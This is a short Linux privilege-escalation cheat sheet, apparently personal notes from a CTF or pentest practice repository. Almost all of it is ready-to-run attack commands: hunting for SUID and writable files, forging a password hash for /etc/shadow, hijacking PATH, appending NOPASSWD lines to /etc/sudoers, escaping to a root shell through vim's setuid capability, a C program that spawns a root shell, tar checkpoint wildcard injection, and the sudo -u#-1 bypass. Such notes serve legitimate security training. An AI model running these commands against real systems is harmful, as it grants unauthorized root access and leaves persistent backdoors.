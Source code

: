 Find files with write permissions for everyone
```
find / -not -type l -perm -o+w
```


generating a password salt

```
openssl passwd -1 -salt <salt> <password>
vim /etc/shadow

```

Using gtfobins on NOPASSWD sudo commands
```
sudo -l
```

Path variable hijacking
```
find / -perm -u=s -type f 2>/dev/null
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
export PATH=$(pwd):$PATH
```

Add self to sudoers
```
echo \"brucetherealadmin ALL=(root) NOPASSWD: ALL" >> /etc/sudoers

printf '#!/bin/bash\necho \"www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > shell.sh
```

Search for setuid capabilites
```
getcap -r / 2>/dev/null
```

vim with setuid capability
```
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

Search for writable folders
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

Compilable C through `gcc <file> -o <out filename>  -w`
```
#include <stdio.h>
#include <stdlib.h>
int main()
{
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
```

backup.sh
```
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1
```


```sh
sudo -u#-1 id
```
